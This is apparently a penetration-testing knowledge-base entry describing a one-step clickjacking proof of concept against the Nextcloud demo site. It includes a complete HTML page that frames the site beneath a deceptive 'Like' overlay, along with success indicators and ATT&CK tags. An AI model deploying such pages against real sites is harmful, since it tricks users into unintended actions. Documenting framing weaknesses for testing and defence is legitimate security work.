

# Clickjacking Attack on Nextcloud Demo Site via Iframe Embedding

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~2 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Text editor for HTML creation

### Target Environment

- Web platform
- Target: https://demo.nextcloud.com
- No specific ports or services required beyond HTTP/HTTPS access

### Initial Access Requirements

- Public access to the target site
- Attacker controls a web server or local file to host the malicious HTML
- No credentials needed

## Detailed Attack Procedures

### Step 1: Create and Host Malicious Clickjacking Page
procedure: [[procedures/Demonstrate-Clickjacking-with-Iframe-Overlay]]

**Objective**: Construct and demonstrate a proof-of-concept page that embeds the Nextcloud demo site in an iframe, overlaying invisible elements to trick users into performing unintended actions.

**Instructions**: Use a text editor to create an HTML file with an iframe embedding the target site. Position the iframe behind a transparent overlay that captures clicks, simulating hijacked interactions like button presses on the demo interface.

Example HTML structure:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking PoC</title>
    <style>
        #frame { position: absolute; top: 0; left: 0; opacity: 0.5; }
        #overlay { position: absolute; top: 100px; left: 100px; width: 200px; height: 50px; background: red; color: white; z-index: 1; }
    </style>
</head>
<body>
    <div id="overlay">Click here to 'Like' this page!</div>
    <iframe id="frame" src="https://demo.nextcloud.com" width="800" height="600"></iframe>
</body>
</html>
```

Save as `clickjack-poc.html` and open in a browser or host on a local server (e.g., using Python's `http.server` if needed). Verify the iframe loads without restrictions and clicks on the overlay align with target elements like login buttons.

**Expected Output**: The Nextcloud demo site loads in the iframe without frame-busting errors, and clicks on the overlay trigger actions on the embedded site.

**Success Indicators**:
- Iframe embeds successfully without X-Frame-Options blocking
- User clicks are hijacked, e.g., overlay click submits a form on the demo site
- No console errors related to framing restrictions

## Attack Chain Summary

### Key Achievements

1. Successfully embedded the Nextcloud demo site in an attacker-controlled iframe
2. Demonstrated potential for UI redressing by overlaying deceptive elements
3. Highlighted lack of frame-busting protections, though impact limited to non-sensitive demo content

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
